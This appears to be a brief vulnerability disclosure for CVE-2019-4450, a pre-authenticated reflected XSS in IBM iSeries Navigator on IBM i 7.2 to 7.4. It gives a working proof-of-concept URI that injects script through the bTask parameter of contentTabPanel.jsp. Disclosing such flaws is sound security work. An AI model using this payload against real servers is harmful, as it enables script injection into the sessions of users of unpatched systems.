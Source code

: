 # Pre-authenticated Reflected XSS in IBM iSeries Navigator

Product: IBM iSeries Navigator
Version: IBM i 7.2, 7.3, and 7.4

Pre-authenticated Reflected XSS vulnerability (CVE-2019-4450)

### URI:  
```
http://ibmiseries:2004/ibm/console/contentTabPanel.jsp?bTask=false%3Balert(%27Reflected+XSS!%27)%3B//
```
